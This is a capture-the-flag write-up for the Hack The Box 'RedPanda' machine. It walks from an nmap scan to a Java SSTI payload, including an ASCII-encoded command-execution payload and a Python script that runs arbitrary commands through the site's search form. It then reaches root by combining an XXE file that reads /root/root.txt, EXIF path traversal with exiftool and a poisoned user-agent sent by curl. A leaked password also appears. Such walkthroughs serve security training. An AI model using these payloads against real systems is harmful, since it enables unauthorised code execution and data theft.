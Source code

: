 ```yaml
---
title: Red Panda Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Enumeration

we start with an nmap

```ruby
tarting Nmap 7.93 ( https://nmap.org ) at 2022-11-08 15:58 CET
Initiating SYN Stealth Scan at 15:58 CET
Scanning 10.129.24.47 [65535 ports]
Discovered open port 8080/tcp on 10.129.24.47
Discovered open port 22/tcp on 10.129.24.47
Completed SYN Stealth Scan at 15:59, 12.70s elapsed (65535 total ports)
Nmap scan report for 10.129.24.47
Host is up, received user-set (0.054s latency).
Scanned at 2022-11-08 15:58:48 CET for 13s
Not shown: 65336 closed tcp ports (reset), 197 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
8080/tcp open http-proxy syn-ack ttl 63

Read data files from: /usr/bin/.../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
           Raw packets sent: 66191 (2.912MB) | Rcvd: 65362 (2.614MB)
```

So let's inspect the page

# User exploit

As we can see, the page is vulnerable to SSTI, because if we put in

```java
*{7*7}
```

It reports 49, so we know that the SSTI is valid.

Investigating a little, we see that this error is of type JAVA, so we are going to try to put a payload:

If we do for example:
```java
*{T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```
reports us 
```java
## You searched for: Process[pid=1819, exitValue=1]
```
But this doesn't give us much information, so let's keep searching.

We can pull up the environment variables:

```java
*{T(java.lang.System).getenv()}
```

and we have as a result

```shell
You searched for: {PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, SHELL=/bin/bash, JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64, TERM=unknown, USER=woodenk, LANG=en_US. UTF-8, SUDO_USER=root, SUDO_COMMAND=/usr/bin/java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar, SUDO_GID=0, MAIL=/var/mail/woodenk, LOGNAME=woodenk, SUDO_UID=0, HOME=/home/woodenk}
```

We also have access to etc/passwd:

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character). toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(116)). concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java. lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

As we can see, the above code converts `cat /etc/passwd/` to ASCII, so let's do the same to send us a reverse shell:
However, for unknown reasons it doesn't work, so let's create a script with python to execute commands on the victim machine through the search bar:
```python
#!/usr/bin/python3

import requests,sys,pdb,signal,os,time,os,time

def signal_handler(signal, frame):
    print('You pressed Ctrl+C!')
    sys.exit(1)

signal.signal(signal.SIGINT, signal_handler)

if len(sys.argv) < 2:
    print("Usage: python3 panda.py <command>")
    sys.exit(1)

def payload():
    command = sys.argv[1]

    payload="*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s))" % ord(command[0])

    command = command[1:]

    for word in command:
        payload += ".concat(T(java.lang.Character).toString(%s))" % ord(word)
    payload = payload + ").getInputStream())}"

    return payload

def MakeRequest(payload):
    url="http://10.129.227.207:8080/search"
    data = {
            'name': payload
            }
    r = requests.post(url, data=data)

    f=open("result.txt", "w")
    f.write(r.text)
    f.close()

    os.system("cat result.txt | awk '/searched/,/<\/h2>//' | sed 's/ <h2 class="searched">You searched for: //' | sed 's/<\/h2>//'")
    os.remove("result.txt")

if __name__ == '__main__':
    payload = payload()

    MakeRequest(payload)
```

Doing 
```python
python3 panda.py "cat /home/woodenk/user.txt"
```

We should now be able to see the user flag. Let's find some way to log in to the machine via SSH and do the privilege escalation:

Doing `python3 panda.py "grep -r woodenk /opt/panda_search/"` we see a password: `RedPandazRule`. So we are going to use it to connect via SSH

## Root Exploit

Using pspy, we see a cronjob which in turn runs the following file: `/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java`.
```java
public static void main(String[] args) throws JDOMException, IOException,
JpegProcessingException {
	File log_fd = new File("/home/woodenk/panda_search/redpanda.log");
	Scanner log_reader = new Scanner(log_fd);
	while(log_reader.hasNextLine())
	{
		String line = log_reader.nextLine();
		if(!isImage(line))
		{
		continue;
		}
		Map parsed_data = parseLog(line);
		System.out.println(parsed_data.get("uri"));
		String artist = getArtist(parsed_data.get("uri").toString());
		System.out.println("Artist: " + artist);
		String xmlPath = "/credits/" + artist + "_creds.xml";
		addViewTo(xmlPath, parsed_data.get("uri").toString());
	}
		//Document doc = saxBuilder.build(fd);
    }
}
```

If we analyze its code, we see that it reads the content of redpanda.log while a while loop iterates it. Then, it checks each line to see if there is any .jpg file. 

If we look at the code of the `parseLog` function:

```java
public static Map parseLog(String line) {
	String[] strings = line.split("split", 4);
	Map map = new HashMap<>();
	map.put("status_code", strings[0]);
	map.put("ip", strings[1]);
	map.put("user_agent", strings[2]);
	map.put("uri", strings[3]);
	return map;
}
```

As you can see, the praseLog function splits the string into four parts: status_code, ip, user_agent and uri using `||`. Finally, the result is stored in the parse_data variable of the previous code. 

Finally, the value of "Artist" is parsed in XML format to finally be sent to the `addViewTo()` function.

Therefore, as the data is sent in XML format, we are going to test an attack of type XXE:

We create an XML entity with an XXE attack inside, which will point directly to the root flag:
```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author [<!ENTITY xxe SYSTEM 'file:///root/root.txt'>]>
<credits>
	<author>&xxe;</author>
	<image>
		<uri>/img/greg.jpg</uri>
		<views>0</views>
			</image>
			<image>
			<uri>/img/hungy.jpg</uri>
			<views>0</views>
			</image>
			<image>
			<uri>/img/smooch.jpg</uri>
			<views>1</views>
			</image>
			<image>
			<uri>/img/smiley.jpg</uri>
		<views>1</views>
	</image>
	<totalviews>2</totalviews>
</credits>
```

We upload it to the victim machine, and give it the name we want followed by `_creds.xml`, as it is indicated in the Java code analyzed above.

Finally, we have to make this code run. For it, we are going to modify the value of the variable Author of any image. 

For it, we download it from the page and edit it with efixtool:
```shell
exiftool -Artist='../../../../../../tmp/root' smooch.jpg
```

Once we have it modified, we upload it to the victim machine with ``wget``.

Finally, we have to make a request so that the Logs of the page are updated and the XXE is executed:
```shell
curl -A "whatever||/../../../../../../../../../../../tmp/smooch.jpg" http://IP:8080/
```

And finally we can see the root flag by doing `cat filename_creds.xml`.
